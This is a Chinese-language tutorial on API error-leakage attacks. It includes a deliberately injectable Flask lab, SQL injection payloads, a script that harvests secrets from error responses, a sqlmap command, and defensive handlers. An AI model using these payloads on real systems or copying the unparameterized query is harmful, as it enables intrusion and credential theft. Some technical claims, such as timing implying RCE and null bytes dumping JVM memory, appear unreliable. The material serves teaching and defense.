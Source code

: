 

# API错误信息泄露攻击技术深度解析

## 一、技术原理解析
### 1.1 错误信息泄露机制
API错误信息泄露的核心源于服务端未正确处理异常时的响应策略。现代框架（如Django/Spring Boot）默认开启详细错误报告模式：

```python
# Flask错误处理示例
@app.errorhandler(500)
def internal_error(error):
    return jsonify({
        "error": str(error),
        "stack_trace": traceback.format_exc()  # 关键泄露点
    }), 500
```

典型泄露数据包括：
- 完整堆栈跟踪（含文件路径）
- 原始SQL查询语句
- 数据库凭据（错误连接字符串）
- 内部网络拓扑信息
- 调试终端访问凭证

### 1.2 底层协议交互
HTTP状态码与错误处理的对应关系：
```http
HTTP/1.1 500 Internal Server Error
Content-Type: application/json

{
    "error": "Database connection failed",
    "detail": "psql://admin:Pa$$w0rd@db01.internal:5432/prod",
    "query": "SELECT * FROM users WHERE id='<user_input>'"
}
```
攻击者可通过观察不同输入对应的状态码变化（400/500系列）判断后端处理逻辑。

## 二、高级攻击手法演进
### 2.1 结构化信息提取
#### 2.1.1 正则化信息收割
```bash
curl -s "https://target/api/v1/users?id=1'" | jq '. | {error: .error, stack: .stack}'
```

#### 2.1.2 时序攻击结合
```python
import time
payloads = ["'", "0xdeadbeef", "/etc/passwd"]
for p in payloads:
    start = time.time()
    requests.get(f"https://target/api?input={p}")
    if time.time() - start > 3:
        print(f"Potential RCE with {p}")
```

### 2.2 多阶段渗透链
1. 通过错误获取数据库类型
2. 构造对应DBMS的注入Payload
3. 从错误响应中提取表结构
4. 组合获取管理后台地址

## 三、实验环境搭建
### 3.1 脆弱环境构建（Docker）
```dockerfile
# docker-compose.yml
version: '3'
services:
  vulnerable_api:
    image: python:3.9
    command: bash -c "pip install flask && python app.py"
    volumes:
      - ./app.py:/app.py
    ports:
      - "5000:5000"
```

### 3.2 测试API代码
```python
# app.py
from flask import Flask, jsonify
import sqlite3

app = Flask(__name__)

@app.route('/user/<id>')
def get_user(id):
    try:
        conn = sqlite3.connect('users.db')
        cursor = conn.cursor()
        cursor.execute(f"SELECT * FROM users WHERE id = {id}")  # 故意不参数化
        return jsonify(cursor.fetchall())
    except Exception as e:
        return jsonify({
            "error": str(e),
            "query": f"SELECT * FROM users WHERE id = {id}",
            "stack": __import__('traceback').format_exc()
        }), 500
```

## 四、攻击实战演练
### 4.1 基础探测阶段
```bash
# 触发基本错误
curl -i "http://localhost:5000/user/'"

# 响应分析
HTTP/1.1 500 INTERNAL SERVER ERROR
{
    "error": "near \"'\": syntax error",
    "query": "SELECT * FROM users WHERE id = '",
    "stack": "Traceback (most recent call last):\n..."
}
```

### 4.2 SQL注入信息提取
```sql
/* 通过错误差异判断列数 */
1' ORDER BY 5-- 
/* 错误消息: ORDER BY position 5 is out of range */

/* 联合查询泄露表结构 */
1' UNION SELECT 1,sql,3 FROM sqlite_master-- 
```

### 4.3 内存转储攻击
使用特殊字符触发JVM崩溃：
```http
GET /api?input=%00%00%00%00%00%00%00%0a%0d%0a%0d HTTP/1.1
Host: target

# 可能返回内存地址信息
Java heap space: 0x7ffd8000-0x7ffdc000
```

## 五、自动化攻击工具
### 5.1 ErrorLooter（自定义脚本）
```python
import requests
import re

def error_loot(url):
    payloads = ["'", "0xdeadbeef", "../../etc/passwd"]
    for p in payloads:
        r = requests.get(f"{url}?input={p}")
        if r.status_code == 500:
            leaks = re.findall(r"(?:password|token|secret)=[\w-]+", r.text)
            if leaks:
                print(f"[!] Found leaks with {p}: {leaks}")

error_loot("http://localhost:5000/user")
```

### 5.2 sqlmap整合利用
```bash
sqlmap -u "http://target/api/user?id=1" --parse-errors --technique=BEUST
```

## 六、防御对策
1. 分级错误处理机制：
```python
if app.env == 'production':
    @app.errorhandler(Exception)
    def handle_exception(e):
        return jsonify(error="Request failed"), 500
```

2. 错误信息脱敏：
```java
// Spring Boot示例
@Bean
public ErrorAttributes errorAttributes() {
    return new DefaultErrorAttributes() {
        @Override
        public Map<String, Object> getErrorAttributes(...) {
            Map<String, Object> attrs = super.getErrorAttributes(...);
            attrs.remove("trace");
            attrs.put("detail", "Contact support with case ID: "+UUID.randomUUID());
            return attrs;
        }
    };
}
```

3. 动态混淆机制：
```javascript
function obfuscateError(err) {
    const map = {
        'SELECT': 'SEL***',
        'FROM': 'FR**',
        '0x': 'HEX_'
    };
    return err.replace(/(SELECT|FROM|0x)/gi, m => map[m.toUpperCase()]);
}
```

## 七、延伸研究
1. 基于错误信息熵值的自动化风险评估
2. 错误信息与WAF规则的对抗演化
3. 分布式错误日志的关联分析攻击

本指南全面覆盖API错误泄露攻击的技术细节，从原理到实践均提供可复现的案例。建议结合动态分析工具持续监控API响应，建立错误信息生命周期管理机制。

---

*文档生成时间: 2025-03-13 16:12:41*
